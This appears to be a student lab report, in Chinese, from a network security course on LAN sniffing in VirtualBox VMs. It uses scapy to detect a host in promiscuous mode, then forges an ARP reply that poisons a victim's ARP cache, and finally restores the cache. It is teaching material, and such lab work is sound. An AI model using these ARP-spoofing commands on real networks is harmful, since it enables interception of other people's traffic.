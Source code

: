 [toc]

# CHAP0x04 局域网主动监听实验
## 实验目的
- 掌握网络监听原理
- 掌握网络监听工具
- 掌握网络监听的检测和防范
## 实验环境
- VirtualBox 6.1 虚拟机
    ![虚拟机](./img/vb.png)
- 网关（Gateway）：`Debian Buster`
- 攻击者主机（Attacker）：`Kali Rolling 2109.2`
- 靶机（Victim）：`Kali Rolling 2109.2`
    ![网络拓扑图](./img/exp-vb-layout.png)

    |  身份 |名称|  IP地址 |  MAC地址 |
    |  ----  | ----  |----  |----  |
    |  网关（Gateway） | Gateway-Debian  | 172.16.111.1/24  |  08:00:27:53:e0:03 |
    |  攻击者主机（Attacker） |  Attacker-Kali | 172.16.111.148/24  | 08:00:27:24:e9:f9  |
    |  靶机（Victim） | Victim-Kali  |  172.16.111.112/24 |  08:00:27:f4:99:ae |
    |  靶机（Victim） | Victim-WinXP  |  172.16.111.126/24 |  08:00:27:66:71:85 |
## 实验要求
- [x] 实验一：检测局域网中的异常终端
- [x] 实验二：手工单步“毒化”目标主机的 `ARP` 缓存
- [x] 实验三（可选）：使用自动化工具完成 `ARP` 投毒劫持实验
- [x] 实验四（可选）：基于 `scapy` 编写 `ARP` 投毒劫持工具
## 实验准备
1. 按照网络拓扑图，配置虚拟机网卡，配置实验环境
    ![ip\mac](./img/ip&mac.png)
2. 在攻击者主机`Attacker-Kali`上安装好 `scapy`（Kali自带可不安装）
    ```bash
    # 安装 python3
    sudo apt update && sudo apt install python3 python3-pip

    # 安装 scrapy
    pip3 install scapy[complete]
    ```
## 实验过程
### 实验一：检测局域网中的异常终端
1. 在受害者主机上查看网卡的「混杂模式」是否启用
    ```bash
    # 在受害者主机上检查
    ┌──(kali㉿kali)-[~]
    └─$ ip link show eth0                
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
    link/ether 08:00:27:f4:99:ae brd ff:ff:ff:ff:ff:ff
    ```
2. 在攻击者主机上开启`scapy`并执行代码
    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ sudo scapy                                                                            1 ⚙
    INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().

                         aSPY//YASa       
                 apyyyyCY//////////YCa       |
                sY//////YSpcs  scpCY//Pp     | Welcome to   Scapy
     ayp ayyyyyyySCP//Pp           syY//C    | Version 2.4.4
     AYAsAYYYYYYYY///Ps              cY//S   |
             pCCCCY//p          cSSps y//Y   | https://github.com/secdev/scapy
             SPPPP///a          pP///AC//Y   |
                  A//A            cyP////C   | Have fun!
                  p///Ac            sC///a   |
                  P////YCpc           A//A   | To craft a packet, you have to be a
           scccccp///pSP///p          p//Y   | packet, and learn how to swim in
          sY/////////y  caa           S//P   | the wires and in the waves.
           cayCyayP//Ya              pY/Ya   |        -- Jean-Claude Van Damme
            sY/PsY////YCc          aC//Yp    |
             sc  sccaCY//PCypaapyCP//YSs  
                      spCPY//////YPSps    
                           ccaacs         
                                           using IPython 7.20.0
    >>> pkt = promiscping("172.16.111.112")
    Begin emission:
    Finished sending 1 packets.

    Received 0 packets, got 0 answers, remaining 1 packets

    ```
3. 回到受害者主机上开启网卡的『混杂模式』并查看网卡状态
    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ sudo ip link set eth0 promisc on 
                                                                                
    ┌──(kali㉿kali)-[~]
    └─$ ip link show eth0               
    2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
    link/ether 08:00:27:f4:99:ae brd ff:ff:ff:ff:ff:ff
    ```
4. 回到攻击者主机上的 `scapy` 交互式终端继续执行命令
    ```bash
    >>> pkt = promiscping("172.16.111.112")
    Begin emission:
    Finished sending 1 packets.
    *
    Received 1 packets, got 1 answers, remaining 0 packets
    08:00:27:f4:99:ae PcsCompu 172.16.111.112
    ```
5. 在受害者主机上手动关闭该网卡的『混杂模式』
    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ sudo ip link set eth0 promisc off
                                                                                              
    ┌──(kali㉿kali)-[~]
    └─$ ip link show eth0                
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
    link/ether 08:00:27:f4:99:ae brd ff:ff:ff:ff:ff:ff
    ```
6. 比较总结
    ![混杂模式对比](./img/promisc.png)
    *promiscping : Send ARP who-has requests to determine which hosts are in promiscuous mode*
    **对比：**
    受害者开启混杂模式后，攻击者多收到了一个`answer`数据包
    **混杂模式：**
    一般情况下，网卡往往只会接收目的地址是它的数据包而不会接收目的地址不是它的数据包。

    **混杂模式就是接收所有经过网卡的数据包，包括不是发给本机的包**。默认情况下，网卡只把发给本机的包（包括广播包）传递给上层程序，其他的包一律丢弃。

    混杂模式就是指网卡能接受所有通过它的数据流，无论是什么模式、什么地址的。当网卡处于这种“混杂”模式时，它对所有遇到的每一个数据帧都产生一个硬件中断，以提醒操作系统处理流经该物理媒体上的每一个报文包。

### 实验二：手工单步“毒化”目标主机的 `ARP` 缓存
1. 在攻击者主机上的`scapy`交互式终端完成
    ```bash
    >>> arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
    >>> arpbroadcast.show()
    ###[ Ethernet ]### 
    #dst= ff:ff:ff:ff:ff:ff
    #src= 08:00:27:24:e9:f9
    #type= ARP
    ###[ ARP ]### 
        # hwtype= 0x1
        # ptype= IPv4
        # hwlen= None
        # plen= None
        # op= who-has
        # hwsrc= 08:00:27:24:e9:f9
        # psrc= 172.16.111.148
        # hwdst= 00:00:00:00:00:00
        # pdst= 172.16.111.1

    >>> recved = srp(arpbroadcast, timeout=2)
    Begin emission:
    Finished sending 1 packets.
    *
    Received 1 packets, got 1 answers, remaining 0 packets
    >>> gw_mac = recved[0][0][1].hwsrc
    >>> gw_mac
    '08:00:27:53:e0:03'
    >>> arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.126", hwdst="08:00:27:24:e9:f9")
    >>> sendp(arpspoofed)
    .
    Sent 1 packets.
    ```
    ![scapy命令](./img/scapy.png)
2. 在受害者主机查看`ARP`缓存
    ![伪造成功](./img/arp伪造.png)
3. 在攻击者主机执行命令，恢复`ARP`缓存
    ```bash
    >>> restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:53:e0:03", pdst="172.16.111.126", hwdst=
    ...: "08:00:27:66:71:85")
    >>> sendp(restorepkt1, count=100, inter=0.2)
    ....................................................................................................
    Sent 100 packets.
    ```
4. 在受害者主机查看`ARP`缓存
    ![恢复成功](./img/arp恢复.png)
### 实验三（可选）：使用自动化工具完成 `ARP` 投毒劫持实验
### 实验四（可选）：基于 `scapy` 编写 `ARP` 投毒劫持工具
## 问题及解决
1. `scapy`执行命令`pkt = promiscping("172.16.111.112")`时报错
原因：报错为`permission denied`说明是权限不足
解决：启动`scapy`时升级权限`sudo scapy`
2. 执行`pkt = promiscping("xxx")`时，开不开混杂模式没有区别，两次输出一样结果
原因：`ip地址`写错了，不是`Attacker-Kali`的地址
解决：写对`ip地址`...
3. `arpspoofed=ARP(xxx)`伪造网关的`ARP`响应包时不成功，受害者`ARP`没有改变
原因：没有用以太网封装
解决：命令改为`rpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.126", hwdst="08:00:27:24:e9:f9")`
## 参考资料
[1] [18信安前辈的实验报告](https://github.com/CUCCS/2020-ns-public-kate123wong/tree/chap0x04/chap0x04)
[2] [在线教材-第四章 网络监听实验](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
[3] [混杂模式介绍_实践求真知-CSDN博客_混杂模式](https://blog.csdn.net/chengqiuming/article/details/89603272)
[4] [Scapy常用操作和命令(1)_Han的小站-CSDN博客](https://blog.csdn.net/qwertyupoiuytr/article/details/54670641)